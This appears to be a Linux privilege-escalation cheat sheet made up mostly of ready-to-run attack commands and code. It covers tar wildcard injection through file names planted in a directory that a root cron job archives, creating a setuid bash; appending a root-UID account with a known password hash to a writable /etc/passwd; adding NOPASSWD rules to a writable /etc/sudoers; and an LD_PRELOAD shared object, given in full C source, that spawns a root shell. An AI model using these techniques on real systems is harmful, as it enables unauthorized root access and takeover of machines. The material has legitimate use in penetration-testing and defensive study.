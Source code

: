 ```
*/2 * * * * root cd /opt/admin && tar -zxf /tmp/backup.tar.gz *

Solution:
cd /opt/admin
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > \
/opt/admin/pwn.sh
touch /opt/admin/--checkpoint=1
touch /opt/admin/--checkpoint-action=exec=sh\ pwn.sh
touch /tmp/backup.tar.gz

/tmp/bash -p

The Actual Bash Interpretation:
/opt/admin: tar -zxf /tmp/backup.tar.gz --checkpoint-action=exec=sh pwn.sh  --checkpoint=1  pwn.sh
```
### Insecure file permission /etc/passwd
 ```
 1. check if users have write permission
 2. openssl passwd evil:
 $1$eWmYOQrX$UHeqHr4pKVFfx1rrFK05B1
openssl passwd -1 -salt hack password123
 3. echo "root2:$1$eWmYOQrX$UHeqHr4pKVFfx1rrFK05B1:0:0:root:/root:/bin/bash" >> /etc/passwd
 4. su root2, enter passwd as evil
 ```
### Writable /etc/sudoers
```
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers

# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# Allow members of group admin to execute any command
%admin 	ALL=(ALL:ALL) ALL
```
### Abusing LD_PRELOAD

```
If LD_PRELOAD is explicitly defined in the sudoers file or sudo -l

env_keep += LD_PRELOAD
```
```
Compile the following shared object using the C code below with gcc -fPIC -shared -o shell.so shell.c -nostartfiles

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}

We can now use this shared object file when launching any program our user can run with sudo:
sudo LD_PRELOAD=/tmp/shell.so find
```
